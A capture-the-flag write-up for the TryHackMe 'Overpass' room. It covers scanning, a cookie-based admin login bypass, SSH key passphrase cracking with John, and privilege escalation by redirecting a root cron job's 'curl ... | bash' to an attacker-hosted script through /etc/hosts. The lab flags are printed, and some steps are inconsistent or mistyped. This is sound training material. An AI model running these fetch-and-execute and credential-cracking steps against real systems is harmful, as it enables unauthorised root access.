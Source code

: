 
# _**overpass**_

    https://tryhackme.com/room/overpass
---------------------------------------------------------
I used `rustscan` for scan then `namp` but result are same 



	┌──(astute㉿kali)-[~]
	└─$ rustscan -a 10.10.250.112 --  -sV -sC
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: https://discord.gg/GFrQsGy           :
	: https://github.com/RustScan/RustScan :
	 --------------------------------------
	😵 https://admin.tryhackme.com

	[~] The config file is expected to be at "/home/astute/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.250.112:22
	Open 10.10.250.112:80
	[~] Starting Script(s)
	[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

	PORT   STATE SERVICE REASON  VERSION
	22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8		T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
	|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
	|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
	80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
	|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Overpass
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

from `scan` it is clear that i has `http` port at `80` and `ssh` port

------------------------------------------------------------------------------------------------------------------------

                                                  
	┌──(astute㉿kali)-[~/ctf/wordlists]
	└─$ gobuster dir -u http://10.10.250.112 -w common.txt 
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.250.112
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                common.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2021/08/14 15:37:14 Starting gobuster in directory enumeration mode
	===============================================================
	/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
	/admin                (Status: 301) [Size: 42] [--> /admin/]
	/css                  (Status: 301) [Size: 0] [--> css/]    
	/downloads            (Status: 301) [Size: 0] [--> downloads/]
	/img                  (Status: 301) [Size: 0] [--> img/]      
	/index.html           (Status: 301) [Size: 0] [--> ./]        
	/render/https://www.google.com (Status: 301) [Size: 0] [--> /render/https:/www.google.com]
												  
	===============================================================
	2021/08/14 15:41:41 Finished

From `gobuster` I was able to find login page `/admin`

since i was taking `cookie` so i used `edit this cookie` browser extension and set values:

------------------------------------------------------------------------------------------------
cookie name : `SessionToken`

value : `letmein`


-------------------------------------------------------------------------------------

we have `RSA KEY` now save this rsa key and use `ssh2john` to convert it to crackable `hash` for `john` 

	┌──(astute㉿kali)-[~/temp/ctf]
	└─$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_john
																														     
	┌──(astute㉿kali)-[~/temp/ctf]
	└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_john
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
	Cost 2 (iteration count) is 1 for all loaded hashes
	Will run 4 OpenMP threads
	Note: This format may emit false positives, so it will keep trying even after
	finding a possible candidate.
	Press 'q' or Ctrl-C to abort, almost any other key for status
	james13          (id_rsa)
	Warning: Only 2 candidates left, minimum 4 needed for performance.
	1g 0:00:00:03 DONE (2021-08-14 16:26) 0.2949g/s 4230Kp/s 4230Kc/s 4230KC/sa6_123..*7¡Vamos!
	Session completed


we got the `password` for `john` . we know`username` john becasue it was mentioned on the `admin` login page 

before `login` to `ssh` we need to give some permission to `id_rsa` file with command :
`chmod 600 id_rsa` 


	┌──(astute㉿kali)-[~/temp/ctf]
	└─$ chmod 600 id_rsa
																														     
	┌──(astute㉿kali)-[~/temp/ctf]
	└─$ ssh -i id_rsa james@10.10.250.112
	Enter passphrase for key 'id_rsa': 
	Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	  System information as of Sat Aug 14 11:01:55 UTC 2021

	  System load:  0.0                Processes:           88
	  Usage of /:   22.3% of 18.57GB   Users logged in:     0
	  Memory usage: 12%                IP address for eth0: 10.10.250.112
	  Swap usage:   0%


	47 packages can be updated.
	0 updates are security updates.


	Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
	james@overpass-prod:~$ 





-------------------------------------------------------

we are in now  , get the `user_flag` now :


	james@overpass-prod:~$ id
	uid=1001(james) gid=1001(james) groups=1001(james)
	james@overpass-prod:~$ ls
	todo.txt  user.txt
	james@overpass-prod:~$ cat user.txt 
	thm{65c1aaf000506e56996822c6281e6bf7}
	james@overpass-prod:~$ 


=> `thm{65c1aaf000506e56996822c6281e6bf7}`

--------------------------------------------------------

	james@overpass-prod:~$ ls
	todo.txt  user.txt
	james@overpass-prod:~$ cat todo.txt 
	To Do:
	> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
	> Write down my password somewhere on a sticky note so that I don't forget it.
	  Wait, we make a password manager. Why don't I just use that?
	> Test Overpass for macOS, it builds fine but I'm not sure it actually works
	> Ask Paradox how he got the automated build script working and where the builds go.
	  They're not updating on the website
	james@overpass-prod:~$ 


now let's do some `previlage escilation` 
i am using `linpeas.sh` and uploaded to ssh using `python http server` host

on local host be on `linpeas.sh` directory :
 
 `python3 -m http.server 80`
 
on `ssh` machine 

`wget http://tun0ip/80/linepeas` 

--------------------------------------------------------
i was able to find curl `request` which was redirecting directly to `root`

	PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash


so I nano to /etc/host/ and changed ip of `over.thm` to my own `tun0 ip`

	james@overpass-prod:/tmp$ cat /etc/hosts
	127.0.0.1 localhost
	127.0.1.1 overpass-prod
	127.0.0.1 overpass.thm  #change there
	# The following lines are desirable for IPv6 capable hosts
	::1     ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters


then i made a directory `mkdir -p downloads/src` and made a file `touch buildscript.sh` and wrote command there i want to run as `admin`:

	┌──(astute㉿kali)-[~/temp/ctf/downloads/src]
	└─$ cat buildscript.sh   
	#!/bin/bash

now i went back to my `ssh macine` and made file `flag` on directory `/etc` 

	james@overpass-prod:/tmp$ touch flag
	james@overpass-prod:/tmp$ chmod 777 flag

i changed the mode also 


now i hosted the `http.server` on the `download` directory we made on out local host 

`python3 -m http.server 80`

then it stareted sending http.request as root on ssh machine

	Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
	10.10.129.106 - - [19/Jul/2020 22:19:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
	10.10.129.106 - - [19/Jul/2020 22:20:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
	10.10.129.106 - - [19/Jul/2020 22:21:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

now if you see `flag` which we made on `/etc` on our `ssh` machine you will find the flag

	james@overpass-prod:/tmp$ cat flag                                                                                               
	thm{7f336f8c359dbac18d54fdd64ea753bb}

=> `thm{7f336f8c359dbac18d54fdd64ea753bb}`

-----------------------------------------------------------
# _Thank You_